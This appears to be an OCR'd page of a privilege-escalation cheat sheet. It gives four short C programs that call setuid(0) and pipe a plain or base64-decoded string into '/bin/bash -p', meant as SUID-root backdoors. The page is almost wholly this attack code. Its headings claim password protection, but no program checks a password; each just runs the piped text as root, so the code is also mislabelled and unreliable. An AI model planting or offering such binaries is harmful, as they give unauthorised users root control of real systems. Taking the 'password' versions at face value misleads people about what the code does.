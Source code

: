 #### SUID Binary with Password

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main() {
    setuid(0);
    system("echo 'password' | /bin/bash -p");
    return 0;
}
```

#### SUID Binary with Custom Password

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main() {
    setuid(0);
    system("echo 'custom_password' | /bin/bash -p");
    return 0;
}
```

#### SUID Binary with Encrypted Password

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main() {
    setuid(0);
    system("echo -n 'encrypted_password' | base64 -d | /bin/bash -p");
    return 0;
}
```

#### SUID Binary with Custom Encrypted Password

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main() {
    setuid(0);
    system("echo -n 'custom_encrypted_password' | base64 -d | /bin/bash -p");
    return 0;
}
```
